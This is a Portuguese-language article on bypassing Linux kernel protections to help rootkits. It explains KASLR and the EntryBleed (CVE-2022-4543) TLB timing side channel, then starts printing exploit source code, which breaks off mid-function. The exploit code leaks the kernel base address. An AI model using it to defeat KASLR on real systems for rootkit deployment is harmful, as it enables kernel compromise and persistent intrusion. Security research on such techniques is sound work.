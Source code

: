 ```yaml
---
title: "Kernel Linux Bypass"
author: "black0ut"
---
```


**lights off & black0ut on**

### 1- Introdução
Olá, Sejam bem vindos!!!
Nesse artigo vou abordar como as proteções modernas no Kernel Linux atrapalham e mitigam as funções de rootkits e claro como ocorre o seu bypass.

### 2- Kernel Address Space Layout Randomization (KASLR)

Sendo uma das principais formas de defesa do Kernel e em outros sistemas, ocorre a randomização dos endereços de memória do kernel em cada boot dificultando assim a exploração do atacante. Em rootkits isto é prejudicial por conta da randomização da **sys_call_table**, acarretando que hooks em syscalls sejam mais difíceis, devido ao seu endereço de memória aleatório.

Para contornar esse sistema existem alguns métodos, como por exemplo:  

**A CVE-2022-4543**, também conhecida como **EntryBleed**, é uma vulnerabilidade no mecanismo de segurança **Kernel Page Table Isolation** (KPTI) do Linux, que permite a um atacante local vazar o endereço base do **KASLR** (Kernel Address Space Layout Randomization) em sistemas Intel. Essa falha explora um canal lateral baseado em temporização do TLB (Translation Lookaside Buffer) para obter informações sensíveis do kernel, comprometendo a aleatorização de memória crítica, por meio do mapeamento da **entry_SYSCALL_64**, que possui o mesmo endereço no espaço de uer e no espaço do kernel, dessa forma podemos usar o **prefetchnta e prefetcht2** são usadas para medir o tempo de acesso a endereços específicos, conseguindo obter o endereço da syscall, esa falha ocorre principalmente em processadores intel, segue abaixo um exploit para exploração dessa vulnerabilidade:

![1](https://dl.acm.org/cms/attachment/html/10.1145/3623652.3623669/assets/html/images/hasp23-6-fig1.jpg)


### Arquivo:"entryBleed_main.c" 
```C
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

uint64_t sidechannel(uint64_t addr)
{
    uint64_t a, b, c, d;
    asm volatile(".intel_syntax noprefix;"
                 "mfence;"
                 "rdtscp;"
                 "mov %0, rax;"
                 "mov %1, rdx;"
                 "xor rax, rax;"
                 "lfence;"
                 "prefetchnta qword ptr [%4];"
                 "prefetcht2 qword ptr [%4];"
                 "xor rax, rax;"
                 "lfence;"
                 "rdtscp;"
                 "mov %2, rax;"
                 "mov %3, rdx;"
                 "mfence;"
                 ".att_syntax;"
                 : "=r"(a), "=r"(b), "=r"(c), "=r"(d)
                 : "r"(addr)
                 : "rax", "rbx", "rcx", "rdx");
    a = (b << 32) | a;
```
